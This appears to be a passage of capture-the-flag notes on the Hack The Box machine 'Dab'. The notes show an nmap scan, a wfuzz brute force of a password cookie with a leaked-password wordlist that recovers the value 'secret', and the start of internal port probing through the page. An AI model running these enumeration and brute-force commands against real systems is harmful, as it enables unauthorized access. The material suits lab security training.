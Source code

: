 ```nmap -sC -sV -oA nmap/dab 10.10.10.86```
inserting:

```Cookie: password=ippsec```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549152393691_image.png)


Response: *password authentication cookie is incorrect*

wfuzz header

```wfuzz -c --hw 29 -w /usr/share/seclists/Passwords/darkweb2017-top1000 -H 'Cookie: password=FUZZ' http:10.10.10.86:8080/```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549152592273_image.png)

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549152664736_image.png)


re-wfuzz removing 29w

```wfuzz -c --hw 29 -w /usr/share/seclists/Passwords/darkweb2017-top1000 -H 'Cookie: password=FUZZ' http:10.10.10.86:8080/```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549152723571_image.png)


*RESPONSE: “secret”*

modify the Burp header

```Cookie: password=secret```
![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549152789791_image.png)


*PAGE RESPONDS  - “Status of cache engine: online”*

navigate back to firefox and open dev tools > storage - ensure correct page is highlighed and press the “+” to add a cookie. Set name to Password and Value to secret

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549152983546_image.png)



refresh page with newly installed cookie

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549153040964_image.png)


attempt to view ports:
TCP Port: 22 Line to send: Pleasesubscribe

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549153131664_image.png)


invalid port
TCP Port: 31337 Line to send: asdf

![](https://d2mxuefqeaa7sj.cloudfront.net/s_0F0B85F4AA869BFDB6CB3BC5BCB4F0577A23E4F1A4945DFCAB31D40EAAB5338B_1549153174364_image.png)

```